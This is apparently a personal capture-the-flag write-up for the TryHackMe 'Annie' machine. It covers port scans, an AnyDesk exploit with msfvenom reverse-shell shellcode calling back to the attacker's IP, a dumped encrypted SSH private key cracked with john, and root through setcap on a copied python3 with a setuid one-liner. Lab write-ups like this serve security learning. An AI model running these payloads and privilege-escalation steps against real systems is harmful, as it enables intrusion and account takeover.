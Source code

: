 nmap
```
└─$ sudo nmap -sV 10.10.129.156
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-10 16:11 PDT
Nmap scan report for 10.10.129.156
Host is up (0.18s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
7070/tcp open  ssl/realserver?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.91 seconds

```


I found a script `49613.py` which is a python2 script for exploiting a vuln found on anydesk which runs on port 7070.
I changed the shellcode so it would work for my machine. I ran the exploit and nothing happened. I hit a brink wall so I read this walkthrough: https://infosecwriteups.com/annie-from-tryhackme-edfea2b78eb5
Turns out I made a few mistakes when setting up the script. I changed the port to 7070 because that came up in my port scan. The
original script has 50001 as its default port. Turns out if I checked UDP ports, I would've found this port open so I ran a UDP nmap scan.

udp scan
```
PORT      STATE         SERVICE
68/udp   open|filtered dhcpc
5353/udp open|filtered zeroconf
50001/udp open|filtered unknown

```

so I changed the port back to 50001
```
└─$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.13.46.127 LPORT=1111 -b "\x00\x25\x26" -f python -v shellcode
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
Found 4 compatible encoders
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=17, char=0x00)
Attempting to encode payload with 1 iterations of x64/xor
x64/xor succeeded with size 119 (iteration=0)
x64/xor chosen with final size 119
Payload size: 119 bytes
Final size of python file: 680 bytes
shellcode =  b""
shellcode += b"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48"
shellcode += b"\x8d\x05\xef\xff\xff\xff\x48\xbb\xbe\xc6\xd6"
shellcode += b"\xd4\x66\x32\x6b\x99\x48\x31\x58\x27\x48\x2d"
shellcode += b"\xf8\xff\xff\xff\xe2\xf4\xd4\xef\x8e\x4d\x0c"
shellcode += b"\x30\x34\xf3\xbf\x98\xd9\xd1\x2e\xa5\x23\x20"
shellcode += b"\xbc\xc6\xd2\x83\x6c\x3f\x45\xe6\xef\x8e\x5f"
shellcode += b"\x32\x0c\x22\x31\xf3\x94\x9e\xd9\xd1\x0c\x31"
shellcode += b"\x35\xd1\x41\x08\xbc\xf5\x3e\x3d\x6e\xec\x48"
shellcode += b"\xac\xed\x8c\xff\x7a\xd0\xb6\xdc\xaf\xb8\xfb"
shellcode += b"\x15\x5a\x6b\xca\xf6\x4f\x31\x86\x31\x7a\xe2"
shellcode += b"\x7f\xb1\xc3\xd6\xd4\x66\x32\x6b\x99"

```

Using the python script, I was able to get a reverse shell!

user flag
```
cat user.txt
THM{N0t_Ju5t_ANY_D3sk}

```


foothold
```
python3 --version
Python 3.6.9
python3 -c 'import pty; pty.spawn("/bin/bash")'
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

annie@desktop:/home/annie$ 

```

id
```
annie@desktop:/home/annie$ id
uid=1000(annie) gid=1000(annie) groups=1000(annie),24(cdrom),27(sudo),30(dip),46(plugdev),111(lpadmin),112(sambashare)

```


```
annie@desktop:/tmp$ find / -perm -u=s -type f 2>/dev/null
/sbin/setcap
/bin/mount
/bin/ping
/bin/su
/bin/fusermount
/bin/umount
/usr/sbin/pppd
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/xorg/Xorg.wrap
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/arping
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/traceroute6.iputils
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec

```

```
annie@desktop:/home/annie$ cd .ssh
annie@desktop:/home/annie/.ssh$ ls
authorized_keys  id_rsa
annie@desktop:/home/annie/.ssh$ cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
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
b1Da9w==
-----END OPENSSH PRIVATE KEY-----

```


```
Enter passphrase for key 'id_rsa': 
annie@10.10.129.156: Permission denied (publickey).

```

key was password protected. Ran ssh2john.py on the key to get its john format. Then ran it in john with rockyou.
got the password
```
└─$ ./john --wordlist=/usr/share/wordlists/rockyou.txt ~/annie/johnFormatKey
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
annie123         (/home/gomez22/annie/id_rsa)     
1g 0:00:00:07 DONE (2022-08-10 17:35) 0.1377g/s 2803p/s 2803c/s 2803C/s michelin..ailyn
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

I am now able to ssh in!
I put linpeas.sh into /tmp then ran it.


I got stuck again and consulted a walkthrough. I spent too much time trying to exploit a potential CVE that never panned out.
Turns out the intended solution was to copy the python3 binary into /home/annie. The use setcap to change the capabilities of the
copied python3 binary so I could privesc with it.

```
./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'

```

`THM{0nly_th3m_5.5.2_D3sk}
`
